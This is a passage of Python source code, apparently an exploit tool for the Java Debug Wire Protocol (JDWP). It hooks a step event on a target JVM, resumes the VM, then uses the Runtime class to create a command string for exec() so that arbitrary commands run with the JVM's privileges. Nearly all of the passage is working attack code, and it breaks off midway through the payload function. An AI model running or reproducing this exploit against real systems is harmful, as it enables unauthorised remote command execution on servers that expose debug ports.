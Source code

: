         rId = jdwp.send_event(EVENTKIND_STEP, *data)

        # 4. resume vm and wait for event
        jdwp.resumevm()

        while True:
            buf = jdwp.wait_for_event()
            ret = jdwp.parse_event(buf, rId)
            if ret is not None:
                break

        rId, tId, loc = ret
        print ("[+] Received matching event from thread %#x" % tId)

        jdwp.clear_event(EVENTKIND_STEP, rId)

        # 5. Now we can execute any code
        runtime_exec_payload(jdwp, tId, runtimeClass["refTypeId"], getRuntimeMeth["methodId"], args.cmd)


        jdwp.resumevm()

        print ("[!] Command successfully executed")

        return True

    def runtime_exec_payload(jdwp, threadId, runtimeClassId, getRuntimeMethId, command):
        #
        # This function will invoke command as a payload, which will be running
        # with JVM privilege on host (intrusive).
        #
        print ("[+] Selected payload '%s'" % command)

        # 1. allocating string containing our command to exec()
        cmdObjIds = jdwp.createstring( command )
        if len(cmdObjIds) == 0:
            print ("[-] Failed to allocate command")
            return False
        cmdObjId = cmdObjIds[0]["objId"]
        print ("[+] Command string object created id:%x" % cmdObjId)

        # 2. use context to get Runtime object
        buf = jdwp.invokestatic(runtimeClassId, threadId, getRuntimeMethId)
        if buf[0] != chr(TAG_OBJECT):
            print ("[-] Unexpected returned type: expecting Object")
            return False
        rt = jdwp.unformat(jdwp.objectIDSize, buf[1:1+jdwp.objectIDSize])
